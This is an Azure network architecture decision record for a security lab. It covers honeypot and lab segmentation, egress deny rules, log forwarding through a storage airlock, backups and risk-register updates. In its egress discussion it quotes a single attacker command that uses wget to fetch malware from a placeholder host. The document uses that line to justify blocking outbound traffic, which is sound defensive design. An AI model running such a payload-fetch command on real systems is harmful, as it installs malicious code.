

# Network Architecture

| | |
|---|---|
| **Document owner** | Aaron — System Administrator role (per [Information Security Policy](../docs/governance/information-security-policy.md) §4) |
| **Version** | 1.0 — decisions accepted |
| **Date** | 2026-08-20 |
| **CISSP domain mapping** | Domain 3 — Security Architecture & Engineering, **and Domain 4 — Communication & Network Security** |
| **Depends on** | [Risk Register](../docs/governance/risk-register.md) R-02, R-03, R-07, R-08; [BCP/DRP](../docs/governance/bcp-drp.md) §3, §5.3, §8; [Policy](../docs/governance/information-security-policy.md) §6, §7 |
| **Status** | **All four §5 decisions accepted as recommended, 2026-08-20.** Implementation in [`bicep/`](bicep/). **No Azure resources provisioned yet** — the templates are written and reviewable but have not been deployed. |

## 1. Purpose and Scope

This document designs the Azure network layer that every later build phase sits on: the Wazuh manager, the Metasploit lab, Shuffle, and the `network-packets.com` honeypot.

It is written **before provisioning** deliberately. Nothing bills while this is a document, and the decisions in §5 are far cheaper to settle on paper than to unpick after VMs, address spaces, and firewall rules exist.

Phase 1 governance already committed Data-Frames to specific network properties. This phase does not get to re-open them — it implements them:

| Prior commitment | Source | What it forces here |
|---|---|---|
| Two VNets, **no routine trust relationship** between honeypot and private lab | Policy §6, R-02 | No VNet peering. No shared credentials or identities across the boundary. §5 D-01 |
| Offensive tooling never reaches a third party | Policy §7, R-03 | Lab subnet egress blocked by default, not merely by operator discipline. §5 D-02b |
| Honeypot captured data forwarded **outside** the honeypot VNet | BCP §3 | A data path out of the honeypot that does not become a path *into* the lab. §5 D-01 |
| Daily automated VM snapshots | BCP §3, R-08 | Backup policy defined at build time. §5 D-04 |
| Honeypot rebuilt **from a clean image** after compromise | BCP §5.3 | The honeypot needs a golden image, not a restore point. §5 D-04 |
| DNS records exported outside the registrar | BCP §3 | Assigned explicitly to this phase. §8 |
| Patch cadence for Wazuh defined "once the VM is built" | R-08 | §9 |

## 2. Design Principles

Five principles, each traceable to a governance commitment rather than to taste:

1. **Segmentation is the primary control, not a supporting one.** BCP §5.3 names VNet segmentation as *the* response to a honeypot pivot attempt. Anything that weakens the boundary — peering, a shared identity, a bidirectional route — defeats the control the incident-response plan depends on.
2. **Fail secure.** Default-deny outbound on both the honeypot and lab subnets. A rule that must be added to permit traffic fails safe when forgotten; a rule that must be added to *block* traffic fails open.
3. **Least privilege applied to network paths, not just accounts** (Policy §6). The honeypot's write path to log storage is append-only. Fully compromised, the credential it holds is worth exactly one thing: appending to a blob container it cannot read.
4. **No public management plane.** No VM in either VNet gets a public IP for administration. This removes an entire class of exposure (brute force, a 0-day in the SSH/RDP listener) rather than restricting it by source IP.
5. **Reserve for the upgrade you will plausibly need.** Address space is free; re-addressing a live lab is not.

## 3. Topology

The single most important property: **there is no line between the two VNets.** The honeypot's data reaches Wazuh by writing into a storage account that Wazuh separately reads from. Neither VNet can route to the other, and neither holds a credential that works in the other.

## 4. Address Plan

Non-overlapping ranges, deliberately, **even though the VNets are never peered.** Overlapping space would foreclose future options that cost nothing to preserve: a forensic jump host, a temporary VPN, or an offline analysis copy of honeypot data.

### 4.1 `vnet-df-lab` — 10.10.0.0/16 (Canada Central)

| Subnet | Range | Contents | Notes |
|---|---|---|---|
| `snet-wazuh` | 10.10.1.0/24 | Wazuh manager | Receives agent traffic (1514/1515) from `snet-lab` only |
| `snet-lab` | 10.10.2.0/24 | Metasploit attacker VM + deliberately vulnerable targets | **Default-deny outbound to internet** (R-03) |
| `snet-shuffle` | 10.10.3.0/24 | Shuffle SOAR | Phase 6; reserved now |
| `snet-mgmt` | 10.10.4.0/24 | Reserved — future jump host / tooling | Unused at build |
| `AzureBastionSubnet` | 10.10.250.0/26 | **Reserved, not deployed** | Developer SKU needs no subnet; reserved so a Basic/Standard upgrade needs no re-addressing (D-03) |

### 4.2 `vnet-df-honeypot` — 10.20.0.0/16 (Canada Central)

| Subnet | Range | Contents | Notes |
|---|---|---|---|
| `snet-honeypot` | 10.20.1.0/24 | T-Pot / Cowrie VM | Public IP **by design** — this is the exposed asset |
| `AzureBastionSubnet` | 10.20.250.0/26 | **Reserved, not deployed** | Same rationale as above |

Second-octet separation (10.**10** vs 10.**20**) makes the boundary visible in any log line, rule, or alert at a glance — a small operational affordance that pays off during an incident.

## 5. Decisions

**All four accepted as recommended on 2026-08-20.** The reasoning is retained below rather than trimmed — a decision record that keeps only the outcome cannot be re-examined later when the constraints that produced it (pre-revenue, solo operator, no client data) change. Each decision names the condition that should trigger revisiting it.

---

### D-01 — How honeypot data reaches Wazuh without creating a pivot path — ✅ ACCEPTED (Option B)

**The conflict.** Two Phase 1 commitments point in opposite directions:

> **BCP §3**: honeypot data "forwarded continuously to a store outside the honeypot VNet (e.g., the Wazuh manager or a separate storage account)"
>
> **R-02 / Policy §6**: "no routine credential, account, or trust relationship is shared between the honeypot VNet and the private lab VNet"

Continuous forwarding from honeypot to Wazuh *is* a path between the two VNets. The parenthetical in BCP §3 quietly contains both the problem ("the Wazuh manager") and the solution ("a separate storage account").

| Option | Mechanism | Assessment |
|---|---|---|
| **A. VNet peering + NSG allow** | Honeypot Wazuh-agent → manager over peered link | **Rejected.** Creates exactly the routed path R-02 exists to prevent. NSG rules are one misconfiguration away from the R-02 scenario, and BCP §5.3 names segmentation as the control that stops it |
| **B. Storage account airlock** ✅ | Honeypot appends logs to blob storage; Wazuh separately pulls from that storage | **Recommended.** No route between VNets. Data moves one way. A compromised honeypot holds only an append-only credential |
| **C. Wazuh manager public listener** | Honeypot agent → manager's public IP over TLS | **Rejected.** Puts the SIEM — the thing that must survive to detect the compromise — on the public internet. Violates principle 4 |
| **D. Event Hubs broker** | Honeypot → Event Hub → Wazuh | Sound, same one-way property as B, more moving parts and more cost for no gain at this scale |

**Recommendation: B.** The storage account is an *airlock*: the honeypot has write-append, no read, no list, no delete; Wazuh has read, from a separate identity, initiated from the lab side. The honeypot never learns the lab exists. Even granting an attacker full root on the honeypot, the stolen credential's total value is "can append blobs to a container."

Implementation notes:
- Honeypot writes via a **short-lived, auto-rotated SAS scoped to append/create on one container** — satisfies Policy §6's credential-lifetime rule rather than using a long-lived account key
- Storage account: public network access disabled; reachable from the honeypot subnet via **service endpoint or private endpoint** so log traffic never traverses the public internet
- Wazuh pulls on a schedule from the lab side. **The lab initiates; the honeypot side never does.** Direction of initiation is the control
- Immutable/versioned blobs, so an attacker holding the append credential cannot destroy previously captured intelligence

This also satisfies the honeypot's "Continuous" RPO in BCP §2 — the intelligence survives the VM, which is exactly what that RPO was asserting.

---

### D-02 — Egress control (two separate problems) — ✅ ACCEPTED (Option B, both)

#### D-02a — Honeypot egress

**This is a gap in the Phase 1 documents.** The risk register covers the honeypot being attacked (R-10, accepted by design) and the honeypot pivoting inward (R-02). Nothing covers **the honeypot being used to attack someone else.** A compromised honeypot with unrestricted outbound is a machine, registered to Aaron, attacking third parties from a Data-Frames IP address. That is a liability exposure, not merely a technical one — and it sits uncomfortably beside Policy §7's absolute prohibition on offensive traffic reaching non-authorized third parties.

Azure permits all outbound traffic by default. **Not deciding this is deciding it.**

| Option | Cost | Assessment |
|---|---|---|
| **A. Leave default (allow all outbound)** | Free | **Rejected.** See above |
| **B. NSG default-deny outbound + narrow allowlist** ✅ | Free | **Recommended.** Allow only: storage endpoint (D-01), Azure platform essentials, and a time-boxed update window. Deny the rest |
| **C. Azure Firewall, FQDN filtering + threat intel** | Meaningful monthly cost | The correct enterprise answer. Revisit when revenue justifies it — §10 |

**Recommendation: B**, with the tradeoff stated explicitly because it is a real one:

Blocking egress reduces honeypot realism. An attacker who lands on Cowrie and runs `wget http://evil/malware` gets a failure instead of a payload, which can tip them off that it is a honeypot and shorten the session.

**Take that tradeoff anyway.** The *attempted* URL is the intelligence — it is what gets captured, correlated, and shown to a client. Actually retrieving an attacker's malware over your own IP buys a sample there is no safe detonation lab for yet, in exchange for outbound liability. The capture is the product; the payload is not.

#### D-02b — Lab egress (R-03)

R-03 rates "offensive tooling reaches a real third-party host" at High (10), and its only current control is *"signed rules-of-engagement required before any offensive activity"* — an **administrative** control against what is fundamentally an **operator-error** risk. A typo'd CIDR in an `msfconsole` target range is not prevented by a signed document.

**Recommendation:** `snet-lab` gets NSG default-deny outbound to internet, permitting only intra-subnet traffic (attacker → targets) and Wazuh agent traffic to `snet-wazuh`. Updates happen in a deliberate, time-boxed window with the rule temporarily relaxed, then re-tightened.

This converts R-03 from an administrative control into a **technical** one. A mistyped target range fails closed instead of reaching the internet — a material reduction in R-03's likelihood, which should be reflected at the next register review (§10).

---

### D-03 — Administrative access — ✅ ACCEPTED (Bastion Developer SKU)

Principle 4 rules out public IPs for management. What replaces them:

| Option | Cost | Assessment |
|---|---|---|
| **A. Public IP + SSH/RDP, NSG-restricted to home IP** | Free | Management plane on the public internet; a residential IP is dynamic, so the allowlist either breaks or gets widened until it is meaningless |
| **B. Bastion Developer SKU** ✅ | **Free** | **Recommended** — see below |
| **C. Bastion Basic** | ~USD $0.19/hr ≈ $139/mo | Billed from deployment until deletion, regardless of use |
| **D. Bastion Standard** | ~USD $0.29/hr ≈ $212/mo | Adds native CLI client, file transfer, custom ports |
| **E. VPN Gateway** | Hourly gateway charge | More moving parts than one operator needs |

**Recommendation: B — Bastion Developer SKU, one per VNet.** It is free, and its two headline limitations are near-irrelevant here:

- *"Does not support virtual network peering"* — **this architecture forbids peering anyway (R-02).** The limitation that disqualifies Developer SKU for most deployments costs nothing here
- *"One VM connection at a time"* — you are one person

It also requires no `AzureBastionSubnet` and no public IP, so VMs stay entirely private at zero recurring spend. Available in **Canada Central and Canada East**, which is where this infrastructure should live anyway (Canadian client base, data residency).

Limitations to accept knowingly:
- Microsoft states Developer SKU **is not suitable for production workloads**. Acceptable for a pre-revenue lab; **re-decide before any client's data touches this infrastructure**
- Portal-based connections only — no native `az` CLI client, no file upload/download (those are Standard features)
- Shared resource, not a dedicated host

Upgrade path: Developer → Basic/Standard/Premium requires creating an `AzureBastionSubnet` (/26 or larger) and a static public IP. **The address plan in §4 already reserves that /26 in both VNets**, so the upgrade is additive rather than a re-addressing exercise. Downgrades are not supported, so starting low is the correct direction.

*Verify at build:* that a Developer SKU instance can be deployed independently in each of the two VNets.

---

### D-04 — Backup, snapshots, and the honeypot's golden image — ✅ ACCEPTED

BCP §3 commits to "daily automated snapshot once built." BCP §5.3 separately commits to rebuilding the honeypot "from a clean image." **These are different mechanisms, and the distinction matters.**

| Asset | RTO / RPO (BCP §2) | Mechanism | Rationale |
|---|---|---|---|
| Wazuh manager | 48h / 24h | Daily backup, 7-day retention | Holds detection history and tuned rules — genuinely stateful |
| Metasploit lab | 48h / 24h | **Golden image, no daily backup** | BCP §2: "rebuildable from scratch; not holding irreplaceable state." A daily backup contradicts its own BIA entry and costs money for nothing |
| Shuffle (Phase 6) | 24h / 24h | Daily backup | Holds playbooks and integration config |
| **Honeypot** | 72h / **Continuous** | **Golden image only — deliberately NOT backed up** | See below |
| DNS records | 4h / N/A | Export to repo (§8) | BCP §3 assigns this to this phase |

**The honeypot must not be backed up, and that is a security decision rather than a cost one.** A honeypot is a machine you expect to be compromised. A daily snapshot of it is a daily snapshot of an attacker's foothold — and restoring one restores the compromise. BCP §5.3 already prescribes the correct response: *rebuild from a clean image.* Its data is protected by D-01's continuous forwarding, not by snapshots. This is precisely why its RPO reads "Continuous" while its RTO is the most relaxed of any system.

**Recommendation:** Azure Backup with a daily policy and 7-day retention for Wazuh and Shuffle only; captured golden images for the lab and honeypot; auto-shutdown schedules on lab VMs (free, and the single largest lever on monthly compute cost).

---

## 6. NSG Baseline

Rules to be authored at build time against this intent. Default-deny is the posture in both directions everywhere except the honeypot's deliberate inbound exposure.

| NSG | Direction | Rule intent | Traceability |
|---|---|---|---|
| `nsg-honeypot` | Inbound | Allow from internet on honeypot service ports — **the intended function** | R-10 (accepted) |
| `nsg-honeypot` | Outbound | **Deny all**, except storage endpoint + platform essentials + time-boxed update window | D-02a |
| `nsg-honeypot` | Outbound | **Explicit deny to 10.10.0.0/16** — belt-and-braces; no route exists, but the rule makes the intent auditable and any violation alertable | R-02 |
| `nsg-lab` | Outbound | **Deny all to internet**; allow intra-subnet + Wazuh agent ports to `snet-wazuh` | R-03, D-02b |
| `nsg-wazuh` | Inbound | Allow 1514/1515 from `snet-lab` only | Least privilege |
| `nsg-wazuh` | Outbound | Allow storage account read (D-01 pull) | D-01 |
| All | — | Quarterly rule review, findings recorded | R-02's existing planned control |

The explicit cross-VNet deny rules are redundant by design. Redundant controls that make an intent *auditable* — and that generate an alertable event if the topology ever changes — are worth their negligible cost.

## 7. Wazuh Visibility of the Boundary

BCP §5.3's response begins *"If Wazuh alerts on unexpected lateral traffic from the honeypot VNet."* For that sentence to be true rather than aspirational, Wazuh must actually receive NSG flow logs from `nsg-honeypot`. Build step: enable NSG flow logs on both VNets and ingest them into Wazuh. **Without this, BCP §5.3's trigger condition can never fire.**

## 8. DNS Record Backup

BCP §3 assigns this to this phase: export both zones' records from GoDaddy into `infra/dns/` as plain text, committed to the repo. Records are not secrets, and git provides versioning for free — so a registrar account compromise (R-05) destroys control of DNS but never the *record of what DNS was*, which is what BCP §5.5's restore step depends on.

## 9. Patch Cadence (closes R-08)

R-08's control is "patch cadence defined once the VM is built." Proposed: monthly scheduled patching for Wazuh, Shuffle, and lab hosts; **honeypot excluded by design** — it is intentionally vulnerable and is rebuilt from image rather than patched. Confirm at build.

## 10. Proposed Governance Updates

Phase 2 surfaces changes the Phase 1 documents need. **These are proposed, not applied** — the risk register is a versioned v1.0 document, and amending it is a deliberate call:

**New risk** (next free ID is R-13; R-12 is already assigned to financial records):

| ID | Asset | Threat / Vulnerability | L | I | Score | Rating | Controls | Treatment | Status |
|---|---|---|---|---|---|---|---|---|---|
| R-13 | network-packets.com honeypot (outbound) | Compromised honeypot used to attack third parties from a Data-Frames-owned IP — legal/liability exposure and direct conflict with Policy §7 | 3 | 4 | 12 | High | NSG default-deny outbound with narrow allowlist (D-02a); planned: Azure Firewall FQDN filtering once revenue justifies it | Mitigate | Planned — this phase |

**Amendments:**
- **R-03** — likelihood reduced once D-02b converts the control from administrative-only to technical (default-deny lab egress). Re-score at next review
- **R-02** — status moves from "Planned — network architecture phase not yet built" to reference this document
- **R-08** — patch cadence now defined (§9)
- **BCP §3** — clarify that "forwarded to a store outside the honeypot VNet" resolves to the storage-account airlock, explicitly *not* direct forwarding to the Wazuh manager

## 11. Cost Shape

| Item | Cost |
|---|---|
| VNets, subnets, NSGs, service endpoints | Free |
| Bastion Developer SKU (both VNets) | **Free** |
| Storage account (log airlock) | Negligible at honeypot log volume |
| NSG flow logs storage | Low |
| Azure Backup (Wazuh + Shuffle only) | Modest — per-instance + storage |
| **VM compute** | **The entire real cost** |

Compute dominates everything else combined. The levers: right-sized burstable (B-series) VMs, auto-shutdown schedules on lab VMs that only run during active work, and not running the Metasploit lab continuously. Confirm current Canada Central rates in the Azure pricing calculator at build time — the figures in D-03 are USD list prices and indicative only.

## 12. Build Order

Each step is verifiable before the next depends on it. **Steps 1–2 are implemented as Bicep templates in [`bicep/`](bicep/)** and are free to deploy (VNets, subnets, and NSGs carry no charge); everything from step 3 on is not yet written.

1. Resource groups + both VNets/subnets per §4 — **no VMs**
2. NSGs per §6, default-deny first, then open only what a specific step needs
3. Bastion Developer in both VNets; confirm private-only access works
4. Storage account + private/service endpoint + append-only SAS (D-01)
5. Wazuh VM; confirm it can pull from storage and receive agent traffic
6. NSG flow logs → Wazuh (§7)
7. Backup policies + golden images (D-04)
8. DNS export (§8)
9. **Verification: from the honeypot subnet, confirm 10.10.0.0/16 is unreachable and general internet egress is denied — before the honeypot is ever exposed**
10. Technical DR test per BCP §8: destroy a VM, time the real restore against §2's RTO/RPO

Step 9 is not optional. It is the test that proves R-02 and D-02a are real rather than intended.

## 13. Revisit Conditions

A decision record is only useful if it says when to reopen it. Each of these should force a re-examination rather than waiting for the annual review:

| Trigger | Revisit |
|---|---|
| Any client data touches this infrastructure | **D-03** — Microsoft states Developer SKU is not suitable for production; also re-examine D-02a |
| Revenue justifies recurring spend | **D-02a/D-02b** — Azure Firewall with FQDN filtering and threat intel replaces NSG allowlists |
| A second person needs simultaneous VM access | **D-03** — Developer SKU allows one connection at a time |
| Default-deny lab egress goes live | **R-03** — re-score likelihood in the risk register (currently deferred, not assumed) |
| Honeypot log volume grows materially | **D-01** — storage cost and Wazuh pull cadence |
| A honeypot compromise actually occurs | **D-04 and BCP §5.3** — test whether golden-image rebuild worked as designed |

## 14. CISSP Reinforcement — Domains 3 & 4

Scenario-style framings drawn from actual decisions in this document, since scenario parsing is the identified gap:

1. *A honeypot must forward captured data to a SIEM on an isolated network segment. Which approach best preserves segmentation?* — The discriminator is **direction of initiation** and what a stolen credential is worth. Peering with restrictive rules is the plausible-but-wrong answer; the exam rewards the control that survives a misconfiguration. (D-01)
2. *A control exists as a documented policy requiring authorization before offensive testing. What most reduces the risk of tooling reaching an unauthorized host?* — Administrative controls do not prevent operator error; the technical control does. (D-02b)
3. *A compromised system in a DMZ is discovered. The organization has daily snapshots. What is the appropriate recovery action?* — Restoring a snapshot may restore the compromise; rebuild from known-good. Recovery is not the same as restore. (D-04)
4. *What is the more defensible justification for a redundant deny rule where no route exists?* — Auditability and defense in depth, not throughput or cost. (§6)

Each turns on **what the control does when something else fails** — the recurring shape of Domain 3/4 scenario questions, and a more reliable discriminator than picking the technically strongest-sounding option.
